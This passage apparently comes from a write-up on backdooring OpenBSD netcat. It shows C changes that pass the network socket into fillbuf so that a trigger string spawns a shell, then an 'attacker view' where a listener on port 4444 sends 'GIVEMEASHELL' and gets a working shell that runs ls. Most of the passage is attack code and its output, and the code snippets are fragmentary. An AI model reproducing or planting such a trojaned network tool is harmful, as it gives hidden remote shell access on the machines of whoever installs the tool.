 additionally if the server desides to exit the session and proceed with communication, i have stored the previous file descriptors in a temporary variable and set them back after the system call exits. In order to do all of that, i need to receive the socket value from connect() or accept4(), this value is actually present in readwrite() in the form of net_fd.
```c
if ((s = unix_connect(host)) > 0) {
			if (!zflag)
# if defined(TLS)
				readwrite(s, NULL);
# else
				readwrite(s);
# endif
			close(s);
.
.
.
connfd = accept4(s, (struct sockaddr *)&cliaddr,
				    &len, SOCK_NONBLOCK);

readwrite(connfd);
.
.
.
 if defined(TLS)
readwrite(int net_fd, struct tls *tls_ctx)
# else
readwrite(int net_fd)
# endif
{
```
So the solution would be to pass net_fd as a pramater to fillbuf.
```c
# if defined(TLS)
ssize_t fillbuf(int, unsigned char *, size_t *, struct tls *, int s);
# else
ssize_t fillbuf(int, unsigned char *, size_t *, int s);
# endif
.
.
.
		/* try to read from network */
		if (pfd[POLL_NETIN].revents & POLLIN && netinbufpos < BUFSIZE) {
			ret = fillbuf(pfd[POLL_NETIN].fd, netinbuf,
# if defined(TLS)
			    &netinbufpos, tls_ctx);
			if (ret == TLS_WANT_POLLIN)
				pfd[POLL_NETIN].events = POLLIN;
			else if (ret == TLS_WANT_POLLOUT)
				pfd[POLL_NETIN].events = POLLOUT;
			else
# else
			    &netinbufpos,net_fd);
```
Lets test if this works
attacker view:
```bash
~/netcat/netcat-openbsd-1.206$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 127.0.0.1 34322
GIVEMEASHELL
sh: turning off NDELAY mode
ls
Makefile
atomicio.c
atomicio.h
```
